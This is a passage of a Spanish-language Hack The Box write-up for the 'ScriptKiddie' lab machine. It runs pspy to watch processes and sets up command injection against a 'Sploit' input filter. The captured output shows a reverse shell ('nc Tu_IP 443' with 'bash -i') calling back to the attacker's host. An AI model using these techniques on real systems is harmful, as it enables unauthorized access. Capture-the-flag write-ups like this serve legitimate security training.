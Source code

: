 ```bash
user.txt
kid@scriptkiddie:~$ chmod +x pspy64     
chmod +x pspy64
kid@scriptkiddie:~$
```

Por último, ejecuta **pspy**:
```bash
kid@scriptkiddie:~$ ./pspy64
./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2023/05/08 02:19:47 CMD: UID=1000  PID=446398 | ./pspy64 
2023/05/08 02:19:47 CMD: UID=1000  PID=446291 | bash -i 
2023/05/08 02:19:47 CMD: UID=1000  PID=446242 | /bin/sh 
2023/05/08 02:19:47 CMD: UID=1000  PID=446241 | nc Tu_IP 443
```

Ahora, como ya vimos que en la función **Sploit** realiza un filtro a la hora de poner algo que no sea texto, veamos que pasa si ponemos simbolos random:

<p align="center">
<img src="/assets/images/htb-writeup-scriptkiddie/Captura9.png">
</p>

Observa el resultado:
```bash
2023/05/08 02:19:47 CMD: UID=0     PID=1      | /sbin/init maybe-ubiquity 
2023/05/08 02:20:01 CMD: UID=0     PID=446410 | /usr/sbin/cron -f 
2023/05/08 02:20:01 CMD: UID=0     PID=446409 | /usr/sbin/CRON -f 
2023/05/08 02:20:01 CMD: UID=0     PID=446408 | /usr/sbin/CRON -f 
2023/05/08 02:20:01 CMD: UID=0     PID=446418 | pkill -f keytool 
2023/05/08 02:20:01 CMD: UID=0     PID=446416 | /bin/sh -c pkill -f keytool && pkill -f nmap & rm -rf /tmp/d2* 
2023/05/08 02:20:28 CMD: UID=0     PID=446420 | /usr/sbin/incrond 
2023/05/08 02:20:28 CMD: UID=0     PID=446421 | /lib/systemd/systemd-udevd 
2023/05/08 02:20:28 CMD: UID=1001  PID=446428 | /bin/bash /home/pwn/scanlosers.sh 
2023/05/08 02:20:28 CMD: UID=1001  PID=446427 | sh -c nmap --top-ports 10 -oN recon/Tu_IP.nmap Tu_IP 2>&1 >/dev/null 
2023/05/08 02:20:28 CMD: UID=0     PID=446426 | /lib/systemd/systemd-udevd 
```